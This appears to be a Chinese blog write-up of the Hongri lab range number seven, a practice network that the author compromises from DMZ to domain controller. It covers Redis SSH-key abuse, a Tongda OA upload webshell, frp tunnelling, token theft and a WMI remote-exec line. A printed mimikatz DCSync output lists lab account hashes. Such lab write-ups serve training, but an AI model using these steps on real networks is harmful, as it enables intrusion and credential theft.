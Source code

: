 #  红日靶场（七）WHOAMI Penetration（一）   
原创 Undefin3d团队  Undefin3d安全团队   2024-11-18 12:45  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51SZKvIeb0p3BrdwlM4ianxlufV2uvDecP3MDjNoZdibriaespbe93HC3Jw/640?wx_fmt=png "")  
  
  
  
·  
  
  
  
DMZ IP段为192.168.1.0/24  
  
·  
  
  
二层网络 IP段为192.168.52.0/24  
  
·  
  
  
三层网络 IP段为192.168.93.0/24  
## 第一层网络    
  
  
首先我们拿到靶机的ip为192.168.1.128，我们直接可以fscan进行端口扫描，发现了一个redis授权漏洞和一个Laravel的cve漏洞  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51Y3AgVjRibppZnM4ibJsB8ic3V0Gde0QBERftM8AYhS37Fhlj1z05f0kTA/640?wx_fmt=png "")  
  
  
  
  
我们直接通过redis未授权写ssh密钥，拿到主机的shell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51ASowlNBAybgSiaMIs5nANzFOqAvd97Tbfw14Vz6dUt3FmnFKFWBGOXg/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51TtLBrUib9qENqljstRMAibar80KLP4HlkibmZt8bMcRoKyzrc2YeicMFXw/640?wx_fmt=png "")  
  
  
      
  
  
然后我们直接viper上新建监听，然后一句话上线viper  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51BWtkIiaQqcS5hfp7U3hmZicmZdJYDDWecSOr4THxIA8wdH8Bu7ODDjKg/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51SN0d8kMPcMZzYfvL7AZSrBNTAJnvTP7NIfeZJIJjNW9qRqC4s9OIUA/640?wx_fmt=png "")  
  
  
  
  
直接在靶机上运行就可以上线viper  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51kE8yKo1quHKPNyqrrnWclj25RG72CLx5ATfxHtzMHICsIU7JSOSp5g/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j512PHXXicbEdFL5NcKRxhNtAxrRsOHrLujQXcVB9bIDt56o3icgC0hQzVQ/640?wx_fmt=png "")  
  
  
## 第二层网络    
  
  
然后我们添加内网路由，查看主机的ip  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j514kkUia053RF3wDMSLBNic6uNwb7NTKmyXU8a4UCxNOu57eamQ5KMN64A/640?wx_fmt=png "")  
  
  
  
  
发现存在内网192.168.52.0/24段的网络，我们上次fscan进行内网扫描，发现了一个通达oa  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51xlG1rSmBqHKib5rkNb5zbNBdczMJj7IKeBQg3KsydenWDtb6th7rAag/640?wx_fmt=png "")  
  
  
  
  
我们先将通达的端口给转发到本地，然后进行访问  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51VRYFiaNA0qdfvwIRVaXhnQrmcjyvkXBaSFPZzEt0x98wRicQibc1cwVCQ/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51xfhd3JzRpqqJPRfHf0SK3icQibIQ25CxFlWHSbUpiaGewicnXgUNybTCVQ/640?wx_fmt=png "")  
  
  
  
  
我们使用通达oa的工具进行测试发现一个文件上传的漏洞，我们直接传入🐎上线蚁剑  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51VHV4VT7cfwib23f3icxkmV0Z6R8oUCibsmFMTOib7qk0EXWibuT4gqshN8A/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j5115C9VuOiaAR2IpSGWgeeMwVvx5icfJ2s38EpwSicq2UXMwS3mszL5eM7A/640?wx_fmt=png "")  
  
  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51jV5XNJhdsSnVVcHQMMMQ8tPXwz75j9ItoLnhgDnnRVdsnwNlD0kJgw/640?wx_fmt=png "")  
  
  
  
  
然后我们通过蚁剑上传我们viper的🐎，就可以上线了  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51SHhDbm6mKCcFViapBsNknT7hktk0KIOqy7SbFy1O8OgUVVW4VezFibWg/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51usapmPU6ibG5NI9rwTA2N1rRK9OZdcrFrrbAiaQgzmPyTUiaRCD2Q1Yuw/640?wx_fmt=png "")  
  
  
      
  
  
然后添加路由，但是我们发现上传的fscan没法运行，然后又是一台windows的系统，我们直接转cs上线，但是cs上线需要把我们的本地的端口转发到靶机里面，这样我们就可以监听到pc了，我们frp进行内网穿透，我们将第一台靶机设为我们的服务端，本地为客户端，这样就可以了  
  
  
第一台靶机  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51R7YmaRE2JG8v2WGFichx4B1Ujpmv7tc1aMjDVnSa6oMOf60maj645vQ/640?wx_fmt=png "")  
  
  
本地kali  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51Mqzodh9Orfeia9iaEpHm0n3NcJHGsfYSK8Qve6gK33ibY9zZoia6icKY9PQ/640?wx_fmt=png "")  
  
  
  
  
发现可以连通  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51Z0g4Vx1mu1226q9WTKOAeYE7OxLJVRgfmIb6CMh7lAWF1bbI5P3eAw/640?wx_fmt=png "")  
  
  
      
  
  
我们可以进行测试，在本机监听8008端口，然后在靶机上去访问nc 127.0.0.1 8008，发现可以了  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j519dMGiclJYahqEJaUz8XDVibL0icQhtWaOaSgjM23gVdc5eIQmbChbofEg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j519dMGiclJYahqEJaUz8XDVibL0icQhtWaOaSgjM23gVdc5eIQmbChbofEg/640?wx_fmt=png "")  
  
  
  
  
然后我们就可以开启cs的去监听8008端口，viper直接已将转cs，就可以上线cs了  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51DmFibicXqqCoF6Gic5n5Xqk3tBImg4ukCOuyYc2g2jWwb6dBjjTtTRQIg/640?wx_fmt=png "")  
  
  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j5171to1HoXs0Cad9FGP4ByicHZrTh14vjL6uR1WphAxfWzM0mbUCOyibuw/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51T4EcEnSQM5Iw8lCRIvW8C9SmMicmHmGygflzicbicRtaRV0UPqzpfBawA/640?wx_fmt=png "")  
  
  
## 第三层网络    
  
  
上线cs后我们进行端口的扫描，我们发现93段的ip，我们直接进行探测，然后发现DC的ip是192.168.93.30，和pc2的ip  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51A1Dm7icKa1SIXVwMPfniaPUrEzAEZvNicmP1icYwpuSiarMSicDTic1RVQDqw/640?wx_fmt=png "")  
  
  
  
  
然后通过 shell ipconfig /displaydns 来查看域名  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51Y1Xu9Um2jriahc1oeDA0l4vHbh6qQG9ZcE1U7A8hznzicI3vpQiafgFoA/640?wx_fmt=png "")  
  
  
  
  
然后我们查看进程，会发现有域管的进程，我们可以进行令牌的窃取  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51ibDhWW32ecXMGVHmqJ0hnOicL7HaNeDD3JhOA0gEicssJVulRgkjuJkPw/640?wx_fmt=png "")  
  
  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51IVZGhFFU9rF3b3RoaDHgY89ZPkpEj3hO7y3vUbDiblcnYZQB5VwPvKg/640?wx_fmt=png "")  
  
  
  
  
然后我们进行通过域管的权限去运行我们的🐎就可以上线域管的监听了  
  
  
remote-exec wmi 192.168.52.30 C:\MYOA\webroot\sh3.exe  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j51Q7G5uZ0PUxibxQws1ndoTLqSIcicBIX56QQVICmnlialjBhySPjXjH9dA/640?wx_fmt=png "")  
  
  
  
  
然后我们尝试导出域内所有用户的hash值，发现可以导出，然后我们就可以用DCsync攻击就可以  
  
  
[*] Tasked beacon to run mimikatz's lsadump::dcsync /domain:WHOAMIANONY.org /all /csv command            [+] host called home, sent: 787057 bytes            [+] received output:            [DC] 'WHOAMIANONY.org' will be the domain            [DC] 'DC.whoamianony.org' will be the DC server            [DC] Exporting domain 'WHOAMIANONY.org'            [rpc] Service  
  : ldap            [rpc] AuthnSvc : GSS_NEGOTIATE (9)            502  
    krbtgt  
    6be58bfcc0a164af2408d1d3bd313c2a  
    514            1001  
    whoami  
    ab89b1295e69d353dd7614c7a3a80cec  
    66048            1115  
    moretz  
    ba6723567ac2ca8993b098224ac27d90  
    66048            1002  
    DC$  
    202d13c79f52cc1d49870638e854afad  
    532480            1112  
    bunny  
    cc567d5556030b7356ee4915ff098c8f  
    66048            500  
    Administrator  
    ab89b1295e69d353dd7614c7a3a80cec  
    66048            1113  
    PC2$  
    65e034039585f728c8f15fe3f3b814ed  
    4096              
      
  
  
然后我们进行上🐎，直接上线dc，同样操作上线pc2  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j510sclryHkLnIElOck6gS4P3ZW8DCmuxFCE2UGetMVoIQrS1o50uibpqg/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icHDOcTg0ZHJaF6TTIoCbX51wdjnP0j519g9PZESROFGfxhWGR3ziaZIpwV1M7RaSF6GicicZpzalKnef4piceicmzaA/640?wx_fmt=png "")  
  
  
      
  
